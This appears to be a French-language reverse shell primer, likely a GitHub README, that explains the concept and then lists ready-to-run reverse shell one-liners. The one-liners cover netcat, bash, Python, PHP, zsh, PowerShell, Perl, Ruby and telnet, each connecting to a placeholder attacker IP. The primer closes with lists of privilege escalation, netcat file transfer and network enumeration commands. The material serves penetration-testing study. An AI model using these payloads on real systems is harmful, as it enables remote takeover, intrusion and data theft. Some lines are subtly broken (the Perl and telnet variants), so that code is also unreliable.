 Qu'est-ce qu'un shell inversé ?

Un shell inversé est un type de shell dans lequel la machine cible initie une connexion vers la machine de l'attaquant, permettant ainsi à l'attaquant d'exécuter des commandes à distance sur la machine cible. Les shells inversés sont couramment utilisés dans les tests de pénétration et d'autres tâches liées à la sécurité, car ils permettent à un attaquant d'obtenir un accès à distance à un système sans nécessiter d'interaction de l'utilisateur ou de configuration réseau.

Pour établir un shell inversé, l'attaquant crée généralement une charge utile de shell, qui est un petit programme ou script conçu pour établir une connexion vers la machine de l'attaquant. Cette charge utile est ensuite téléchargée sur la machine cible, soit par le biais d'une vulnérabilité, soit en trompant l'utilisateur pour qu'il l'exécute. Une fois la charge utile exécutée, elle établit une connexion vers la machine de l'attaquant, créant une session de shell qui peut être utilisée pour exécuter des commandes sur la machine cible.

Comment fonctionne un shell inversé ?

Un shell inversé fonctionne en établissant une connexion entre la machine cible et la machine de l'attaquant. Cette connexion est généralement initiée par la machine cible, qui envoie une requête à la machine de l'attaquant pour établir une connexion. Une fois la connexion établie, la machine de l'attaquant agit comme un écouteur, attendant les commandes envoyées par l'attaquant.

Pour créer un shell inversé, l'attaquant doit d'abord créer une charge utile de shell conçue pour se connecter à la machine de l'attaquant. Cela peut être fait en utilisant une variété d'outils et de langages de programmation, tels que Netcat, Python ou Metasploit. Une fois la charge utile créée, elle est généralement téléchargée sur la machine cible en utilisant une vulnérabilité ou des tactiques d'ingénierie sociale.

Une fois la charge utile exécutée sur la machine cible, elle établit une connexion vers la machine de l'attaquant. Cette connexion peut être chiffrée pour éviter la détection et peut utiliser divers protocoles, tels que TCP, UDP ou HTTP. Une fois la connexion établie, l'attaquant peut utiliser la session de shell pour exécuter des commandes sur la machine cible, accéder aux fichiers et aux données, et même escalader les privilèges si nécessaire.

Pourquoi les shells inversés sont-ils utilisés ?

Les shells inversés sont couramment utilisés dans les tests de pénétration et d'autres tâches liées à la sécurité car ils fournissent un moyen d'obtenir un accès à distance à un système sans nécessiter d'interaction de l'utilisateur ou de configuration réseau. Les shells inversés peuvent être utilisés pour tester la sécurité d'un système, identifier des vulnérabilités et effectuer divers types d'attaques, telles que le vol de données, la modification de fichiers ou l'exécution de logiciels malveillants.

Les shells inversés sont également couramment utilisés dans les activités post-exploitation, car ils permettent à un attaquant de maintenir l'accès à un système même si la vulnérabilité ou l'exploit initial est corrigé. En établissant un shell inversé sur un système compromis, un attaquant peut continuer à surveiller le système, exfiltrer des données, ou même lancer des attaques supplémentaires sur d'autres systèmes au sein du réseau.


LES DIFFERENTS TYPES DE REVERSES
--------------------------------

Netcat
------
nc -e /bin/sh <attacker IP> <attacker port>

Bash
-----
bash -i >& /dev/tcp/<attacker IP>/<attacker port> 0>&1

Python
-------
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<attacker IP>",<attacker port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

PHP
----
php -r '$sock=fsockopen("<attacker IP>",<attacker port>);exec("/bin/sh -i <&3 >&3 2>&3");'

ZSH
----
zsh -c 'zmodload zsh/net/tcp && ztcp <attacker IP> <attacker port> && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'

Powershell
----------
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<attacker IP>',<attacker port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

Perl
-----
perl -e 'use Socket;$i="$ENV{<attacker IP>}";$p=$ENV{<attacker port>};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Ruby
----
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["<attacker IP>"],ENV["<attacker port>"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

Telnet
------
TF=$(mktemp -u); mkfifo $TF && telnet <attacker IP> <attacker port> 0<$TF | /bin sh 1>$TF



	Basic Commands

    pwd: Print current working directory.
    ls: List contents of current directory.
    cd: Change current directory.
    cat: Display contents of a file.
    rm: Remove a file or directory.
    mkdir: Create a new directory.
    cp: Copy a file or directory.
    mv: Move a file or directory.


   Privilege Escalation

    sudo -l: List available sudo commands for the current user.
    sudo <command>: Run a command with elevated privileges.
    su: Switch to the root user.
    sudo su: Switch to the root user with elevated privileges.


    File Transfer

    wget <file URL>: Download a file from the internet.
    curl <file URL>: Download a file from the internet.
    nc -l <local port> > <file>: Receive a file over the network using netcat.
    nc <target IP> <target port> < <file>: Send a file over the network using netcat.


    Network Enumeration

    ifconfig: Display network interface information.
    netstat -tulpn: List active network connections.
    arp -a: Display ARP table.
    ping <target IP>: Test network connectivity to a target.
    nmap: Scan a network for open ports and services.


